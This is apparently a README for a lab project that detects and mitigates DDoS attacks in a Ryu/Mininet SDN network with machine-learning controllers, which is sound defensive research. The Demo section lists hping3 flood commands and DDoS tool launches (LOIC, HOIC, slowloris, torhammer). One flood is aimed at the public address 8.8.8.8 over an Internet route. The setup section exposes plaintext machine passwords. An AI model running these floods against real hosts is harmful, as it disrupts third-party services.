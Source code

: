# I. Server administration information:
## VMware:
Product: VMware® Workstation 15 Pro  
Version: 15.5.0 build-14665864  
## Ryu Controller:
OS: Ubuntu 19.10 eoan  
IP: 192.168.0.104  
User: ryu  
Pass: ryu  
## Mininet:		
Distributor ID:	Ubuntu
Description: Ubuntu 18.04.6 LTS
Release: 18.04
Codename: bionic
IP:192.168.0.100
User: Will
Pass: CuLy@944


# II. Build SDN network system
## 1. Ryu Controller
** Step 1: Goto my project **
```sh
cd my_project/controller/
```
** Step 2: Start Controller SDN **  
In this directory, I have created multiple Controller files, each corresponding to different machine learning algorithms used for testing in various scenarios of detecting and mitigating DDoS attacks. Specifically:
- DT_controller-detect.py: this file uses a Decision Tree algorithm so the system can detect DDoS attacks.
- KNN_controller-detech.py: uses a K-Nearest Neighbors algorithm. algorithm so the system can detect DDoS attacks.
- RF_controller.py: uses a Randowm Forest algorithm. algorithm so the system can detect DDoS attacks.
- DTree_Controller.py: this file uses a Decision Tree algorithm so the system can detect and mitigate DDoS attacks.
- KNN_Controller.py: uses a K-Nearest Neighbors algorithm so the system can detect and mitigate DDoS attacks.

Controller normal (The controller operates normally and does not have an integrated attack detection and mitigation module):
```sh
ryu-manager ryu.app.simple_switch_13,ryu.app.ofctl_rest flowmanager/flowmanager.py    --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080"
```
Controller detect:
```sh
DTree: ryu-manager DT_controller-detect.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
KNN:   ryu-manager KNN_controller-detech.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
```
Controller detect & mitigation:
```sh
DTree: ryu-manager DTree_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
KNN:   ryu-manager KNN_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
```
Step 3: Controller management site
```sh
http://192.168.0.104:8080/home/index.html
```
		
## 2. Mininet
Step 1: Goto my project
```sh
cd project/mininet
```
Step 2: Start sflow service
```sh
sudo ./sflow/sflow-rt/start.sh
```
After starting sflow, you should open another command line on linux to initialize mininet  
Step 3: Start mininet  
Within the scope of my experiment, I created 2 mininet files in python3 language. Furthermore, I use the command in linux to create mininet virtual devices, details are as below:
		- Topology 1: 12 hosts and 6 switches
			sudo mn --custom topology.py,sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo mytopo
		- Topology 2: 6 hosts and 3 switches
			sudo mn --custom topology2.py,sflow/sflow-rt/extras/sflow.py --controller=remote,ip=192.168.0.104:6653 --topo mytopo
		- Topology commandline: Linux commandline
			sudo mn -c && sudo mn --custom sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo tree,depth=2,fanout=2
		Here, you only use 1 of 3 topologies to test the system.
	Step 4: Make Mininet access Internet
		I wrote a simple script to help mininet's virtualized devices access directly to the Internet. I use it to experiment with hosts inside the system attacking the Internet.
			source /home/will/project/mininet/route-topology2.mn
	Step 5: SDN infrastructure monitoring website
		http://192.168.0.100:8008/html/index.html#status
		http://192.168.0.100:8008/app/mininet-dashboard/html/index.html#charts


III. Demo
	Start the web on any host, here I use host 1 as the web server
		python -m SimpleHTTPServer 80
	Test Web Server: using another host to request to host 1.
		wget http://10.0.0.1
	Icmp flood command: h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood h1
	SYN flood command: 	h6 hping3 -S -V -d 120 -w 64 -p 80 --rand-source --flood h1
	Udp flood command:  h6 hping3 -2 -V -d 120 -w 64 -p 80 --rand-source --flood h1
	attack Controller:  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.104
	attack Public	 :  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 8.8.8.8
	other tool attack: I use some cehv11 ddos attack tools
		cd project/tool-dos/tool-attack/
		wine Hoic.exe
		mono LOIC.exe
		python pyloris.py
		python3 slowloris.py 10.0.0.1 -p 80
		python torhammer.py -t 10.0.0.1
		python torhammer.py -t 10.0.0.1 -p 80
		python3 saphyra http://10.0.0.1/ (full CPU)
		python3 RDDoS_Tool.py => select 2 => IP - port

In addition to using the CIC dataset, during the process of experimenting with detecting DDoS attacks, I collected and added to the dataset.
	Normal Dataset:
		Controller: ryu-manager collect_benign_trafic.py
		Mininet: sudo python3 generate_benign_trafic.py 
	DDoS Dataset:
		Controller: ryu-manager collect_ddos_trafic.py
		Mininet: sudo python3 generate_ddos_trafic.py
